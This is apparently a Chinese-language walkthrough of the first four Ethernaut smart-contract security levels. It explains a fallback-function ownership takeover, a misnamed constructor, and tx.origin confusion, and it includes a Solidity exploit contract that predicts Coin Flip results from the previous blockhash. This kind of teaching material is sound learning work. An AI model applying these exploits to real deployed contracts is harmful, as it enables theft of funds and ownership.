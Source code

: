 这题的思路是，先value=1wei调用contribute()，然后value=1wei调用fallback()即可重设owner，最后value=0调用withdraw完成任务。

需要了解owner、msg.value、payable、fallback函数的含义

# level2 fallout
这题注意有个`Fal1out`函数，与合约名`Fallout`不一致，因此不是构造函数（构造函数在合约生成后就不存在了，这一过程实际上是contract creation交易包含构造函数的bytecode，该交易执行构造函数bytecode，然后内存里是合约的其余代码的bytecode，然后ETH节点把返回的bytecode放置在链上与合约地址关联起来），我们可以调用此函数来claim ownership

# level3 coin flip

除了我们手动调用合约的函数，我们也可以写合约来调用合约，因此这题只要写solidity代码我们就能得到block的信息了，思路同0ctf 2018线下赛的ZeroLottery题目：
```solidity
pragma solidity ^0.4.18;

contract CoinFlip {
    uint256 public consecutiveWins;
    function flip(bool _guess) public returns (bool);
}

contract MyContract {
    CoinFlip c;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function MyContract(address coinFlip) public {
        c = CoinFlip(coinFlip);
    }
    
    function exploit() public returns (bool) {
        uint256 blockValue = uint256(block.blockhash(block.number-1));
    
        if (lastHash == blockValue) {
          revert();
        }
    
        lastHash = blockValue;
        uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
        bool side = coinFlip == 1 ? true : false;
        return c.flip(side);
    }
}
```
remix IDE中compile后，我们需要部署MyContract，选择`injected web3` provider后在Deploy MyContract时，构造函数填入关卡合约instance的地址，然后在10个新区块中调用`exploit()`即可，需要花点时间，隔段时间等交易被打包进入一个区块后就又点击`exploit()`一次......10次比较蛋疼，尤其是网络不好

从这道题可以看出，智能合约系统内部没有安全的随机数，只能通过智能合约系统外部的调用实现。

# level4 telephone
这题主要考的就是tx.origin和msg.sender的区别了，在于msg.sender是函数的直接调用方，可能是你手工调用该函数，这时候是发起该交易的账户地址，也可以是调用该函数的一个智能合约的地址。但tx.origin一定只能是这个交易的原始发起方，无论中间有多少次合约内/跨合约函数调用，一定是账户地址而不是合约地址。因此只要写合约调用changeOwner即可，这时msg.sender是你写的智能合约地址，tx.origin是你的账户地址
